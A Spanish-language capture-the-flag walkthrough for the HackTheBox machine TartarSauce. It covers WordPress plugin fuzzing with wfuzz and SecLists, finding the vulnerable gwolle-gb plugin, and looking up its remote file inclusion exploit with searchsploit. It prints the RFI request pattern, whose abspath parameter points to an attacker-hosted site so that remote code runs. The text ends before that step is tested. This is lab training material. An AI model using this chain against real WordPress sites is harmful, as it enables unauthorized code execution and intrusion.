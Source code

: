 
Ya se ve la web mejor y podemos mirar la web por `http://tartartsauce.htb/webservices/wp/`


## Evaluacion de vulnerabilidades {-}

### Buscando vulnerabilidades {-}

Muchas vulnerabilidades en Wordpress se encuentran buscando los plugins instalados. Para enumerar los plugins instalados
en wordpress, se puede fuzzear la web con el uso de un diccionario especial de SecList.

```bash
git clone https://github.com/danielmiessler/SecLists
cd SecLists
cd Discovery/Web-Content/CMS/
```

Con **WFUZZ** utilizamos el diccionario de SecList llamado `wp-plugins.fuzz.txt`.

```bash
wfuzz -c -t 200 --hc=404 -w wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
```

Encontramos un plugin que se llama `gwolle-gb`

Por la web intentamos ver `http://tartartsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/` y no se ve nada. Pero como no nos
da un NotFound quiere decir que existe. Vamos buscando a ver si encontramos un exploit para este plugin


### Buscando un exploit con searchsploit {-}

```bash
searchsploit gwolle
```

Aqui vemos que existe un exploit para Gwolle que no permitte hacer Remote File Inclusion. Analizamos el exploit para saber lo que se puede hacer.

```bash
searchsploit -x 38861
```

Podemos ver que un parametro GET llamado **abspath** que no esta sanitizado correctamente antes de estar utilizado por la funcion require de PHP.
Un atacante podria incluir de manera remota un fichero llamado `wp-load.php` para ejecutar su contenido en la web vulnerable. Ademas el exploit 
nos muestra sobre que ruta tendriamos que ejecutar un metodo get para ejecutar el comando

`http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]`

La idea aqui seria de comprobar si esto es verdad.

### Comprobamos la efectividad del exploit {-}
